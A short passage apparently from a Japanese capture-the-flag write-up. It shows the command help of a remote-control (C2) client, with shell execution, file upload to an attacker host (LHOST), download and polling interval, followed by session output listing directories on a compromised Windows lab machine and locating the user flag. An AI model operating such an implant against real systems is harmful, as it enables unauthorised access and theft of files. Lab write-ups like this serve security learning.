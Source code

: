 ```sh
- SHELL [command]    - Execute command in cmd.exe interpreter;
                       When entered without command, switches to SHELL context.
- SHUTDOWN           - Exit this commandline interface (does not shutdown the client).
- SYSINFO            - Show sytem information.
- SLEEP [ms]         - Set client polling interval;
                       When entered without ms, shows the current interval.
- UNSET [name]       - Unset a variable
- UPLOAD [localpath] - Upload the file at [path] to the remote host.
                       Note: Variable LHOST is required.
- WGET [url]         - Download file from url.

> PWD
> PWD 
.
SHELL dir
> > SHELL dir
 Volume in drive C has no label.
 Volume Serial Number is E6F3-2485

 Directory of C:\Windows\system32

10/07/2025  01:25 AM    <DIR>          .
08/20/2025  09:05 AM    <DIR>          ..
05/08/2021  02:35 AM    <DIR>          0409
05/08/2021  01:14 AM            24,904 0ae3b998-9a38-4b72-a4c4-06849441518d_Servicing-Stack.dll
05/08/2021  01:14 AM            24,888 69fe178f-26e7-43a9-aa7d-2b616b672dde_eventlogservice.dll
04/16/2025  02:16 AM            26,080 6bea57fb-8dfb-4177-9ae8-42e8b3529933_RuntimeDeviceInstall.dll
05/08/2021  01:14 AM             3,176 @AdvancedKeySettingsNotification.png
05/08/2021  01:14 AM               232 @AppHelpToast.png

```

C:\を見る
```sh
> > SHELL dir C:\
 Volume in drive C has no label.
 Volume Serial Number is E6F3-2485

 Directory of C:\

04/16/2025  02:27 AM    <DIR>          inetpub
05/08/2021  01:20 AM    <DIR>          PerfLogs
04/16/2025  01:51 AM    <DIR>          Program Files
08/22/2023  10:30 AM    <DIR>          Program Files (x86)
08/22/2023  01:10 PM    <DIR>          shares
08/22/2023  12:35 PM    <DIR>          temp
04/16/2025  02:48 AM                32 user.txt
08/22/2023  12:54 PM    <DIR>          Users
08/20/2025  09:05 AM    <DIR>          Windows
               1 File(s)             32 bytes
               8 Dir(s)   7,984,095,232 bytes free


```
userフラグがある
